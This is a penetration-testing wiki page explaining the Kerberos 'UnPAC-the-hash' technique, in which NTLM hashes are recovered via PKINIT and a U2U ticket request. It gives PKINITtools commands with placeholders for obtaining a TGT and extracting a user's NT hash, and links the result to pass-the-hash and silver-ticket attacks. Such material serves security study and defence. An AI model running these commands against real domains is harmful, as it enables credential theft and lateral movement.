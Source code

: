 # UnPAC-the-hash

## Theory

When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ (U2U) which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (User to User).

The following protocol diagram demonstrates how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct a [Shadow Credentials](shadow-credentials.md) attacks, to recover the user's LM and NT hashes.

![](../../../.gitbook/assets/UnPAC-the-hash.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools) (Python).

The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

```python
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for [pass-the-hash](../ntlm/pth.md), [silver ticket](forged-tickets.md#silver-ticket), or [Kerberos delegations](delegations/) abuse.
{% endtab %}

{% tab title="Windows" %}
//Work in progress (use tools like Rubeus or kekeo)
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2021/06/21/Shadow-Credentials.html" %}

{% embed url="https://www.sstic.org/2014/presentation/secrets_dauthentification_pisode_ii__kerberos_contre-attaque/" %}

